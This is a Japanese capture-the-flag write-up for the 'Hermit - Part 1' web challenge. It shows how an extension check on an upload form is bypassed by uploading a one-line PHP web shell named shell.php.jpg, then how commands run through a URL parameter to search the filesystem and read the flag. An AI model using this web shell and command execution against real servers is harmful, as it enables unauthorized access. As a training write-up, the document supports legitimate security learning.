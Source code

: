 # Hermit - Part 1

```txt
Help henry find a new shell
http://104.197.195.221:8086 http://34.121.84.161:8086

Hint
How do you know a file is an image?
```

## Solution

問題にアクセスするとファイルをアップロードすることができるページが表示されました。

![img1](img/img1.png)

適当なファイルをアップロードしてみると以下のコメントが表示されました。
```txt
Sorry, only JPG, JPEG, PNG & GIF files are allowed.

Sorry, your file was not uploaded.
Back
```

なので画像をアップロードしてみます。

すると以下のように保存先のディレクトリが表示されて、アップロードした画像にアクセスできるようです。
```txt
The file index.jpg has been uploaded to /var/www/html/uploads/fwjrrh
See Image
```

画像にアクセスするパスは、以下のようになっていました。

`http://104.197.195.221:8086/show.php?filename=fwjrrh`


試しに以下のような簡単な Shell を作成してアップロードしてみます。
```shell
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php.jpg
```

すると上手くアップロードできて、簡単な Shell を実行することができました。

`http://104.197.195.221:8086/show.php?filename=Z9Djnh&cmd=id`

![img2](img/img2.png)

なのでこのまま直接 flga を grep で検索してみると、得ることができました。

`http://104.197.195.221:8086/show.php?filename=Z9Djnh&cmd=grep -r "UMASS" /`

![img3](img/img3.png)

`/home/hermit/flag/userflag.txt:UMASS{a_picture_paints_a_thousand_shells}`

綺麗に flag を表示させる場合は、直接以下のようにして見ることもできました。

`http://104.197.195.221:8086/show.php?filename=Z9Djnh&cmd=cat%20/home/hermit/flag/userflag.txt`

## Flag

flag : `UMASS{a_picture_paints_a_thousand_shells} `